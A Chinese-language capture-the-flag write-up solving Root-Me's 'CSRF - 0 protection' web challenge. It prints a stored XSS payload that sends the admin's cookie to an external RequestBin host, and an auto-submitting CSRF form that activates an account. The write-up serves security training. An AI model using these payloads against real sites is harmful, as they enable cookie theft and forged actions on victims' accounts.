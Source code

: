 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[CSRF - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2927/)]

------

已经很直白提示是 CSRF 题型。

点击 Register 随意注册一个账号，如 `exp`，密码 `123456` 。

然后点击 Login 登录，登录后点击 Profile 切到个人档案，发现有 4 个选项卡，其中：

- Contact ： 可以发送一条消息给 admin 留言， 有个 robot-admin 会定时轮询查看
- Profile ： 激活当前账号，但是非 admin 无法操作
- Private ： 查看账号激活后信息，这就是最终目标
- Logout ： 登出，没用

很明显 Contact 就是注入点，且通过抓取 HTTP 请求发现， Email 虽然会校验格式，但是可以不填，而且也不会作为 HTTP 请求的参数发送出去，因此注入点就是 Comment 输入框。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/01.png)

至此，解此题有两种思路：

- ① 使用【[Web-Client : XSS - Stored 1](http://exp-blog.com/2019/01/13/pid-2922/)】的思路把 admin 的 Cookie 发到我们的服务器，窃取其 Cookie 后再激活
- ② 直接构造 CSRF 伪装 admin 的身份进行激活

首先试试第 ① 种思路，在 Contact 选项卡的 Comment 输入框构造一个 payloads 提交：

`<srcipt>document.write("<img src='${HOST}?tk='"+document.cookie+" />");</srcipt>`

（其中 `${HOST}` 是使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器，详见【[Web-Client : XSS - Stored 1](http://exp-blog.com/2019/01/13/pid-2922/)】，不再赘述）

提交成功后会提示 `Your message has been posted. The administrator will contact you later.` 。

等了一会， [RequestBin](https://requestbin.fullcontact.com/) 服务器收到了消息，说明我们注入 XSS 成功，但是消息中并没有 admin 的 Cookie ，很可能是 Cookie 启用了 HttpOnly 的缘故，因此第 ① 种思路不可行，改用第 ② 种思路，即 CSRF。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/02.png)

要执行 CSRF ，即需要令 admin 在读取 Comment 的时候触发一个激活账号的 POST，因此需要先获得这个 POST 请求的格式，再构造我们期望的内容。

切到 Profile 选项卡，发现 Status 是不可用的，并且点击 submit 后提示 `You're not an admin!`，不过不影响我们捕获 POST 请求。

打开浏览器开发者工具，切到 Elements ，把 Status 的 `disabled` 属性删掉。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/03.png)

打开 Burp Suite -> Proxy -> HTTP history ，然后点击页面的 submit 按钮，即可捕获到激活账号的 POST 请求。

利用这个 POST 请求可以构造 payloads 如下，将其拷贝到 Contact 选项卡的 Comment 输入框提交即可：

```html
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="exp">  <!-- 激活账号，根据实际修改  -->
    <input type="hidden" name="status" value="on">  <!-- 激活动作 -->
</form>
<script>document.csrf.submit()</script>
```

多刷新几次 Private 选项卡，等待 robot-admin 触发 payloads，最终得到 flag，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/04.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
